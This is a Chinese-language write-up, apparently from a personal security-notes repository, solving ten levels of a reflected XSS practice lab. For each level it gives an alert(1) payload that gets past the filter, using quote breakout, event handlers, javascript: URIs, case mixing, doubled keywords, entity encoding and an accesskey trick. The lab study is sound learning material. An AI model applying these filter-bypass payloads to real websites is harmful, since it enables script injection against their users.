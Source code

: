 ## level1
反射型XSS</br>
```java
payload：?name=<script>alert(1)</script>
```

## level2
```java
payload："><script>alert(1)</script>
```

## level3
输入1<"">''内容然后搜索，查看源代码，两个回显点均过滤特殊字符，但是单引号未过滤。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(1).png height="300" width="650">
```java
payload：1' onmouseover='alert(1)
```
鼠标划过输入框上面即弹窗：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(2).png height="300" width="650">

## level4
跟上一关一样，双引号的不同。</br>
```java
payload：1” onmouseover=“alert(1)
```

## level5
script大小写、on事件被禁用：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(3).png height="300" width="650"></br>
但是双引号、单引号、尖括号都可以用</br>
```java
payload：1"><a href="javascript:alert(1)">
```

## level6
script、on事件、href链接相关词被转义：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(4).png height="300" width="650"></br>
可以大小写绕过：</br>
```java
payload：1"><scRipt>alert(1)</scRipt>
```

## level7
输入<script>&lt;onerror&gt;&lt;a hRef&gt;测试，发现对关键字进行了过滤，且大小写不能绕过：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(5).png height="300" width="650"></br>
发现对关键字只进行了一次过滤，可以对关键字双写绕过：</br>
```java
payload：1" oonnmouseover="alert(1)
```
  
## level8
先输入一些关键字符<scripT>&lt;oNerror&gt;&lt;a Href&gt;""''，测试防御情况，看到关键字都被转义，看到a标签考虑使用”<a href="javascript:alert(1)"></a>“，页面有回显的超链接，想办法将script转码一下。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(6).png height="300" width="650"></br>
尝试用如下方式对标签属性值进行转码：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(7).png></br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(8).png></br>
```java
payload：javasc&#13ript:alert(1)
```

## level9
测试看到a标签考虑使用<a href="javascript:alert(1)"></a>，页面有回显的超链接，想办法将script转码一下。</br>
`但是使用上一关的payload测试，发现一直提示链接不合法，测试得知必须使用http://才能链接合法，想办法将该字符塞入payload中，使用js代码的注释符注释http://`</br>
```java
payload：javasc&#9ript:alert(1)/*http://*/
payload：javasc&#9ript:alert(1)//http://
payload：javasc&#9ript:alert(1)<!--http://
```

## level10
右键审查元素发现t_sort的隐藏域可控制输入内容，但是触发隐藏域需要使用accesskey属性，payload如下。</br>
但是触发的时候浏览器不同触发键不一样；另外笔记本键盘和外设键盘可能会影响触发效果。</br>
FireFox下：shift+alt+X (测试成功) </br>
Chrome下：alt+X (Chrome未测试成功) </br>
```java
payload：?t_sort=1"%20accesskey="X"%20onclick="alert(1)
```










